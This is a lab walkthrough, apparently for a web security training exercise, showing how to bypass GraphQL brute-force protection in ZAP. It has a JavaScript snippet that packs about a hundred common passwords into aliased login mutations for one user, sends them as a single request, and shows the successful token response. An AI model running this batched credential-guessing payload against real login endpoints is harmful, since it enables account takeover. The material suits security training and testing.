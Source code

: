 # Lab: Bypassing GraphQL brute force protections

In ZAP's browser attempt a login with credentials `admin:admin`. In __History__ tab, notice a `POST /graphql/v1` request and right-click it to "Open in Requester Tab". 

The request body, should look something like this:

```json
{"query":"\n    mutation login($input: LoginInput!) {\n        login(input: $input) {\n            token\n            success\n        }\n    }","operationName":"login","variables":{"input":{"username":"admin","password":"admin"}}}
```

This is what is known as an __escaped__ GraphQL query (with all the `\n` characters and whitespaces). Unfortunately ZAP doesn't have a neat __GraphQL__ tab in Requester, the way Burp does in Repeater, so we will have to tweak the JavaScript provided by the lab under the _Tip_ section, so that it generates a list of escaped GraphQL query aliases:

```javascript
copy("123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow".split(',').map((p,i)=>`\\n        bruteforce${i}: login(input:{username:\\"carlos\\", password:\\"${p}\\"}) { token success }`).join('')); console.log('Escaped GraphQL aliases copied!');
```

Now the output of this will automatically copied to your clipboard. Go back to __Requester Tab__ and request body and paste it right after the `success\n        }\n` (put your cursor after the second `\n` in the example and paste). Click "Send". Here's part of the response we care about:

```json
"bruteforce91": { 
      "token": "V5NWAbENoRZPFmp7yOwHSiTozrt33eKt",
      "success": true
},
```

> The rest of the flow is the same as in the [original](README.md) write-up.
